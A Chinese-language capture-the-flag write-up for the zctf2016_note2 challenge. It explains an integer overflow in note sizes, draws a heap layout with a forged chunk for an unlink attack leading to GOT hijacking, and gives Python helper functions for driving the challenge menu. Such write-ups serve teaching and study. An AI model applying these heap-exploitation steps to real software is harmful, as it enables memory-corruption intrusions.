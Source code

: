 ### zctf2016_note2

添加 note 时，存在整数溢出漏洞，导致添加大小为 0 的 note，可以输入的长度为无符号的 `-1`，可以认为没有限制，但是 `malloc` 依旧会分配 `0x20` 字节。利用这个堆溢出，我们先分配三个 chunk：

```
| ...               |               |
 -------------------                |
| 'a'*8             |               |
 ------------------- <- ptr[2]    chunk2
| size=0x91         |               |
 -------------------                |
| prev_size         |               |
 ------------------- <---------------
|                   |               |
 -------------------                |
| 'a'*8             |               |
 ------------------- <- ptr[1]    chunk1
| size=0x20         |               |
 -------------------                |
| prev_size         |               |
 ------------------- <---------------
|                   | 0x18          |
 -------------------                |
| bp_prev_size=0x60 |               |
 -------------------                |
| 'a'*0x40          | 0x40          |
 -------------------                |
| fd     | bk       | 0x10          |
 -------------------              chunk0
| fake_size=0x61    |               |
 -------------------                |
| fake_prev_size=0  |               |
 ------------------- <- ptr[0]      |
| size=0x91         |               |
 -------------------                |
| prev_size         |               |
 ------------------- <---------------
```

我们在 0x80 的 `chunk0` 内伪造了 0x61 的 chunk，并通过 `bp_prev_size=0x60` 确保能通过检查。随后分配大小为 `0` 的 `chunk1`（实际大小为 0x20），由于整数溢出这里可以输入无限长度的内容，最后分配 0x80 的 `chunk2` 用来引起 `unlink`。

接下来释放 1 再拿回来，就可以溢出到 `chunk2`，修改其 `prev_size` 和 `chunk_size`，前者修改为 `0x20+0x80=0xa0`，后者置 `PREV_IN_USE` 位为 `0`。这样再释放 2 就可以 `unlink` 掉我们的 fake chunk 了。此时 `ptr` 指向 `ptr-0x18`，填充 0x18 字节后即可修改 `ptr[0]`，之后就是常规 GOT 劫持了。

```python
def add(len,content='a'*8):
    sla('>>','1')
    sla('128)',str(len))
    sla('content:',content)

def show(index):
    sla('>>','2')
    sla('note:',str(index))

def edit(index,choice,content):
    sla('>>','3')
    sla('note:',str(index))
    sla(']',str(choice))
    sl(content)

def delete(index):
    sla('>>','4')
    sla('note:',str(index))
```